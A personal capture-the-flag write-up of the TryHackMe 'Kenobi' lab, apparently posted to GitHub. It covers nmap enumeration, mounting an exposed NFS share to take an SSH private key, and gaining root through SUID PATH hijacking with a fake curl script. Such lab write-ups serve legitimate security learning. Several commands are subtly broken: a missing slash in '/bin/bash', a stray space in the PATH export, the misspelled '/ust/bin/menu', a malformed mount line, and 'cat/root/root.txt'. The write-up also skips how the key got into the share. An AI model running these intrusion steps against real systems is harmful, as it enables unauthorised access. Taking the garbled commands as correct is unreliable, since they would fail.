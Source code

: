 # TryHackMe - Kenobi Write-Up

## *1. Overview*
- *Target Machine:* Kenobi (TryHackMe)
- *Objective:* Gain root access and retrieve the flag.
- *Techniques Used:* Enumeration, NFS Exploitation, Privilege Escalation.

---

## *2. Enumeration*
### *2.1 - Nmap Scan*
First, I ran a full port scan using nmap:  


nmap -sC -sV -p- -oN scan.txt 10.10.73.74


Findings :





![Image](https://github.com/user-attachments/assets/175fc8e7-85e4-4ebb-bc50-fdcf8717a52b)

## 3. Exploitation

### 3.1 - Exploiting NFS

bash


showmount -e <Target_IP>



•	Found /var directory as a shared NFS mount.


•	Mounted the share on my local

bash



 sudo mount -o nolock 10.10.73.74 :/var /mnt


 •	Discovered a private SSH key in /mnt/.ssh/id_rsa.

 ### 3.2 - Gaining initial access

 bash


 chmod 600 id_rsa

 
ssh -i id_rsa kenobi@10.10.73.74


•	Logged in as kenobi user.


## 4. Privilege Escalation

### 4.1 - Finding a SUID Binary
I searched for SUID binaries (executables that run as root):


bash


find / -perm -4000 2>/dev/null


Found:

bash 

/usr/bin/menu

This binary was SUID-root, meaning it could be exploited for privilege escalation.


## 4.2- Exploiting the SUID Binary

I ran strings to check how the menu binary works:


bash


strings /usr/bin/menu


Found this :


bash 


/usr/bin/curl 


This meant the binary was calling curl without specifying the full path. Since we can modify the PATH variable, we could replace curl with a malicious script.



Privilage Escalation via PATH Hijacking 

1. Created a fake curl script

   bash

   echo "bin/bash" > curl

   chmod +x curl

2. Modified the PATH

   bash

   export PATH =/tmp:$PATH


3. Ran the vulnerable binary:


   bash

   /ust/bin/menu


   THIS GAVE ME ROOT SHELL !




 ## 5.PROOF OF COMPROMISE 

 with root access, i retrived the final flag:


 bash 


 cat/root/root.txt



 ## Lesson Learned

 . NFS MISCONFIGURATIONS can expose sensitive files 

 . SUID binaries should be monitored to prevent privilege escalation 

 . PATH hijacking is common way to escalate privilages in misconfiguration systems.


 ## SCREENSHOTS 


 ![Image](https://github.com/user-attachments/assets/84335b5e-c053-4147-bfa9-5da20c7515b5)


 ![Image](https://github.com/user-attachments/assets/1c16ae9b-d7dd-4ecd-995b-d548c38331a5)





   














